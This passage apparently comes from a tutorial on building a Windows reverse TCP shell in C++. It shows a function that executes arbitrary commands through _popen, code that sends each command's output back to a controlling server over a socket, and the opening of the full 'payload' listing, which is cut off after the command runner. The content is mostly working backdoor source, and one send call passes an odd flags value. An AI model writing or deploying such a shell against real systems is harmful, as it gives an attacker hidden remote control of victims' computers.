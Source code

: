 ```cpp
	// Close the pipe and return the result
	_pclose(pipe);
	return result;

}
```

Now we send back the output to the server:

```cpp
// Use the run_cmd function to run the shell command
std::string cmd_res = run_cmd(buffer.data());

// Convert the message length from host order to network order
msg_len = htonl(cmd_res.size());

// Convert the integer into its byte representation, then send it, this is essentially struct.pack()
send(sock, reinterpret_cast<char*>(&msg_len), sizeof(int), 4);

// Send the output of the command
send(sock, cmd_res.c_str(), cmd_res.size(), 0);
```

The entire payload looks like this:

```cpp
// Simple Reverse TCP Shell

#include <stdlib.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <string>
#include <vector>
#include <iostream>

#pragma comment(lib, "Ws2_32.lib")

std::string run_cmd(std::string command)
{

	// Run the command

	char buffer[128];
	std::string result = "";

	FILE* pipe = _popen(command.c_str(), "r");
	if (!pipe)
	{
		return "popen failed.";
	}

	while (!feof(pipe))
	{
		if (fgets(buffer, 128, pipe) != NULL)
		{
			result += buffer;
		}
	}

	_pclose(pipe);
	return result;

}

```